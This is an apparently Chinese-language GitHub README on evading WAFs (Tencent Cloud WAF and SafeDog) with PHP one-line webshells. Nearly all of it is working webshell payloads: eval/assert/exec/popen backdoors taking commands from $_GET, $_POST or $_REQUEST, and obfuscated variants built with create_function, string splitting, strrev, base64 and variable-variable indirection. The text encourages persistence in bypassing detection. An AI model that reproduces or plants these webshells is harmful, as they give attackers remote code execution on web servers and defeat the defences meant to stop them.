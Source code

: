 
### PHP-WebShell-Bypass-WAF

  PHP WebShell 一句话的结构是:输入和执行,这是经典的PHP 一句话代码:

```PHP
    <?php eval($_GET['test']); ?>
    <?php eval($_POST['test']); ?>
```

  WebShell 的输入点在**$_GET** 和**$_POST** ,执行点在**eval()** ,经典的一句话WAF 都会拦截<br/>

  测试:`<?php eval($_GET['test']); ?>`

![](pic/php-eval-get.png)

  测试:`<?php $_GET['test']; ?>`

![](pic/php-get.png)

  测试:`<?php eval(); ?>`

![](pic/php-eval.png)

  综合上面三点,可以发现WAF 是通过关键字来拦截的,把这三个测试用例放到安全狗下测试

![](pic/php-eval-get-safedog.png)

  可以发现,安全狗是通过综合判断来识别WebShell 的,现在,我们有两种的绕过方式:关键字绕过和混淆绕过

### 关键字绕过

  一般来说,WAF 里边的拦截规则都是使用了正则来匹配的,第一个绕过思路:**寻找WAF 拦截里边有没有匹配的关键字**<br/>
  
  测试用例:`<?php%20assert('$code='.$_REQUEST['code']);$code();%20?>`

![](pic/tencent-WAF-assert-bypass.png)

  测试用例:`<?php%20$file=file_put_contents('code.php','<?php%20'.$_REQUEST['code'].'%20?>');include%20'code.php';%20?>`

![](pic/tencent-WAF-include-bypass.png)

  测试用例:`<?php%20exec($_REQUEST['code']);%20?>`

![](pic/tencent-WAF-exec-bypass.png)

  测试用例:`<?php%20$handle=popen($_REQUEST['code'],'r');echo%20fread($handle,1024*4);?>`

![](pic/tencent-WAF-popen-bypass.png)

  测试用例:`<?php%20$function=create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();%20?>`

![](pic/tencent-WAF-create_function-bypass.png)

  思路1 总结:尽可能找到更多不被拦截的函数,然后用来测试

  后来,这些关键字都被策略补上去了,接下来就使用混淆来绕过关键字检测

### 混淆绕过

  `create_function()` 是比较有意思的函数,函数的原型为:[Link](http://php.net/manual/en/function.create-function.php)
  
```PHP
    string create_function ( string $args , string $code )
```

  第一个参数是函数需要的参数列表,第二个参数为函数代码,最后会返回一个函数对象,然后再去调用.在构造代码的时候(构造第二个参数)可以有很多不同的混淆方法
  
```PHP
    eval($_GET['test']);
```
  
  通过很多不同种类的字符串变化成下面的例子
  
```PHP
    'ev'.'al'.'($_G'.'ET['.'"test"]);'
    strrev('$(lave').'_G'.'ET['.'"test"]);';
    base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=');
```

  这样的变化是非常多的,用云WAF 和安全狗测试一下:

```PHP
    <?php $function=create_function('$code','ev'.'al'.'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',strrev('$(lave').'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=')) ?>
```

![](pic/create_function_tencent-WAF.png)

![](pic/create_function_safedog.png)

  腾讯云WAF 的策略是把`create_function()` 当作敏感函数拦截了,这三个WebShell 安全狗也都全部杀掉,先从安全狗开始尝试绕过.
  
  首先使用一个空的`create_function()` 尝试看看安全狗有没有杀掉

![](pic/create_function_safedog_nokill.png)

  向`create_function()` 填充一些可以执行的代码,安全狗也没有杀.

![](pic/create_function_safedog_nokill2.png)

  填充`eval($_GET['test'])` ,发现安全狗识别出WebShell
  
![](pic/create_function_safedog_kill.png)

  使用混淆`'ev'.'al'.'($_G'.'ET['.'"code"'.']);'` 也同样可以被识别

![](pic/create_function_safedog_kill2.png)

  使用`strrev('ve').strrev('la').base64_decode('KCRfR0VUWw==').'"code"'.']);';` 也还是可以别识别

![](pic/create_function_safedog_kill3.png)

  不过不要灰心,PHP 是很灵活的语言,变化的花样很多,试试这样写,就可以绕过安全狗的扫描了

![](pic/create_function_safedog_kill4.png)

  做一句话WAF 绕过和免杀,一定要相信自己,AV 和WAF 除了用关键字和综合判断来识别WebShell ,终会有办法绕过的.现在过狗,接下来介绍一下间接调用函数与间接引用变量.

### 间接调用函数

  PHP 里边有个语法是`$function='eval';` ,然后就可以直接对$function 变量进行函数调用,语法是`$function()`.基于这一点,我们回过头来绕过云WAF

Payload:

```PHP
    <?php $function='create'.'_function';$function=$function('$code','ev'.'al'.'($_'.'GET'.'["code"]);');$function();?>
```

![](pic/tencent-WAF-create_function-bypass-remix.png)

### 间接调用变量

  PHP 还有一个语法是`$$` 间接引用变量,比如:`$test=1234;$reference='test';echo $$reference;` 这样使用,reference 变量里边保存test 变量的名字,然后用符号$$ 即可引用到变量test .这样有什么意义呢?因为WAF 和AV 会通过$_GET ,$_POST 来判断WebShell ,不妨回到云WAF 再看看

![](pic/tencent-WAF-$_GET.png)

  使用`$$` 来绕过,Payload 如下:

```PHP
    <?php $a = '_GET';echo $$a['test'];  //  云WAF 规则已经更新,<?php ?> 会被拦截,所以去掉?> 即可绕过,由此判断是正则匹配,可以开开脑洞发挥一下绕过正则判断
```

![](pic/tencent-WAF-$_GET-bypass.png)

  这样就可以绕过对$_GET ,$_POST 的检测,同样,还有$_REQUESTS ,$_COOKIE 

![](pic/tencent-WAF-$_COOKIE.png)

  

